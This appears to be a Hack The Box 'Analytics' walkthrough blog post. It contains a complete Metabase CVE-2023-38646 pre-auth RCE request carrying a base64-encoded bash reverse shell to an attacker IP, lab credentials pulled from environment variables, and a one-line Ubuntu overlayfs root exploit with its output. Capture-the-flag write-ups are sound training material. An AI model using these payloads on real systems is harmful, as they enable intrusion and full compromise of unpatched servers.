 ```yaml
---
title: "Analytics [Easy]"
date: 2024-07-23 02:09:44 +0530
categories: [Hackthebox]
tags: [Metabase,CVE-2023-38646,RCE,kernel Privesc]
image: [/assets/img/Analytics.png](https://github.com/0xManan/0xManan.github.io/blob/main/assets/img/Analytics.png?raw=true)
---
```


# Analytics Walkthrough - Easy

## Reconnaissance

An initial Nmap scan revealed only 2 open ports:

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.39s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx/1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This revealed SSH running on port 22 and an nginx web server on port 80. Both telling us it's a server running Ubuntu.

The next step was to further enumerate the web application, but first, I added the IP address to /etc/hosts:

```bash
echo "10.10.14.233 analytical.htb" | sudo tee -a /etc/hosts
```

## Initial Foothold

### Exploring the Web Application

Browsing to _http://analytical.htb_ brought up a simple login page. Intercepting requests with Burp revealed a redirect to _http://data.analytical.htb_, so I added that subdomain to /etc/hosts.

Visiting _http://data.analytical.htb_ displayed a login page for Metabase, an open source business intelligence tool. Default credentials did not work on the login. 

[![img](/assets/img/login1.png)
](https://github.com/0xManan/0xManan.github.io/blob/main/assets/img/login1.png?raw=true)

After some research, I discovered Metabase has a recently disclosed pre-authentication RCE vulnerability [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646). This bug in Metabase, involved a retained 'setup-token' post-installation, accessible to unauthenticated users. This flaw, resulting from a codebase refactoring oversight, allowed exploitation via SQL injection in the H2 database driver during the Metabase setup phase. The exploit enabled pre-authentication Remote Code Execution (RCE) by manipulating database connection validation steps.

The next step was finding a Proof of Concept exploit for this vulnerability to gain initial access. The search was not long, as there was a very nice writeup with PoC by AssetNote on their [blog page](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

The following payload can be used to obtain a reverse shell on the system:

```console
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Content-Type: application/json
Referer: http://data.analytical.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: metabase.DEVICE=4f9146b3-7b53-471e-9f10-4232d6856b1d
If-Modified-Since: Fri, 13 Oct 2023 06:45:20 GMT
Connection: close
Content-Length: 822

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

The value of YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg decoded is bash -i >&/dev/tcp/10.10.14.36/5555 0>&1. You must encode this with your own IP and port, and then modify the payload above before sending it. For some reason it won't work if there are any "=" signs in the base64 payload, so make sure you don't have them. You can add spaces in the end of the payload before base64 encoding it, to adjust the padding.

[![img](/assets/img/burp1.png)
](https://github.com/0xManan/0xManan.github.io/blob/main/assets/img/burp1.png?raw=true)

This exploit allowed me to gain a reverse shell from the underlying system, but there was no user flag in there, so I started exploring what's around...

### Finding Credentials

I checked /proc/self/environ for any environment variables:

> 76574c6ca049:~$ cat /proc/self/environ

```bash
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=
LANGUAGE=en_US:en  
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8  
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/cat
OLDPWD=/home/metabase/.ssh
```

This revealed credentials:

```bash
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

I tried to SSH into the server with those and:

```bash
ssh metalytics@analytical.htb
```

i was in and could read the flag:

```bash
Last login: Wed Nov 15 01:55:43 2023 from 10.10.14.36
metalytics@analytics:~$ cat user.txt
dc3b************************c327
```

## Privilege Escalation to Root

After gaining initial access to the Analytical server as the metalytics user, I began searching for ways to escalate privileges and obtain access to the root user account.

sudo -l didn't work

```bash
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Tried uname -a command.

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

From top of my head I could remember that there was an Ubuntu kernel related privesc vulnerability discovered very recently, so I simply decided to try it out. [New Container Exploit: Rooting Non-Root Containers with CVE-2023-2640 and CVE-2023-32629, aka GameOver(lay)](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)

It is so simple, that fits in one line: 

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

So, let's try it:

```bash
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ ls -la /root
ls: cannot open directory '/root': Permission denied
metalytics@analytics:~$
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:~# ls -la /root
total 48
drwx------  6 root root 4096 Aug 25 15:14 .
drwxr-xr-x 18 root root 4096 Aug  8 11:37 ..
lrwxrwxrwx  1 root root    9 Apr 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Apr 27  2023 .cache
drwxr-xr-x  3 root root 4096 Apr 27  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  2 root root 4096 Aug 25 15:14 .scripts
-rw-r--r--  1 root root   66 Aug 25 15:14 .selected_editor
drwx------  2 root root 4096 Apr 27  2023 .ssh
-rw-r--r--  1 root root   39 Aug  8 11:30 .vimrc
-rw-r--r--  1 root root  165 Aug  8 11:53 .wget-hsts
-rw-r-----  1 root root   33 Nov 15 00:54 root.txt
root@analytics:~# cat /root/root.txt
fe46************************afd0
root@analytics:~#
```
## Conclusion

The key steps were thorough reconnaissance, pinpointing a logical exploit chain, adapting public PoCs, and continuous enumeration for additional attack surface. Combining patience, research, and technical skills allowed me to achieve the goal.
